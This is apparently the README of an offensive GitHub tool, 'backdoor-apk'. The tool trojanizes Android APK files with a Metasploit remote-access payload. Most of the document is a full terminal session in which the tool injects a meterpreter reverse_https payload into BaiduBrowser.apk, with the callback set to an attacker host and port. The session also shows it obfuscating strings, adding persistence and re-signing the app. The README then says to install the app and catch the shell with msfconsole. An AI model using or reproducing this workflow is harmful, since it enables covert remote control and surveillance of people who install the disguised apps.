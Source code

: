 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Code/github/backdoor-apk/backdoor-apk# ./backdoor-apk.sh BaiduBrowser.apk 
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\597647541825
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.4a on Fri Sep 28 17:13:37 EDT 2018
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/baidu/browser/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Code/github/backdoor-apk/backdoor-apk#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
